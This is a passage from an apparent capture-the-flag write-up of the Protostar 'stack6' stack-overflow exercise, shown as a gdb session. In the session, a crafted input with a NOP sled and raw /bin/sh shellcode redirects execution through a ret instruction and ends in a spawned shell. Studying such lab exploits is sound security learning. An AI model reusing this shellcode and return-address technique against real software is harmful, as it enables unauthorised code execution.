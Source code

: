 Running the script in `gdb`:

``` shell
user@protostar:~$ gdb /opt/protostar/bin/stack6
(gdb) disassemble getpath
Dump of assembler code for function getpath:
.....
0x080484f9 <getpath+117>:       ret
End of assembler dump.
(gdb) break *0x080484f9
Breakpoint 1 at 0x80484f9: file stack6/stack6.c, line 23.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $eip
>x/8wx $esp
>end
(gdb) r < /tmp/exp
Starting program: /opt/protostar/bin/stack6 < /tmp/exp
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP�RRRRSSSSTTTT����������������������������������������������������������������������������������������������������������j
                                             X�Rh//shh/bin��1�̀
0x80484f9 <getpath+117>:        ret
0xbffff79c:     0x080484f9      0xbffff7d0      0x90909090      0x90909090
0xbffff7ac:     0x90909090      0x90909090      0x90909090      0x90909090

Breakpoint 1, 0x080484f9 in getpath () at stack6/stack6.c:23
23      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) si
0x80484f9 <getpath+117>:        ret
0xbffff7a0:     0xbffff7d0      0x90909090      0x90909090      0x90909090
0xbffff7b0:     0x90909090      0x90909090      0x90909090      0x90909090

Breakpoint 1, 0x080484f9 in getpath () at stack6/stack6.c:23
23      in stack6/stack6.c
(gdb)
Cannot access memory at address 0x54545458
(gdb)
0xbffff7d1:     nop
0xbffff7a4:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7b4:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7d1 in ?? ()
.....
(gdb) c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffff809:     push   $0xb
0xbffff7a4:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7b4:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff809 in ?? ()
(gdb) c
Continuing.
Executing new program: /bin/dash
```
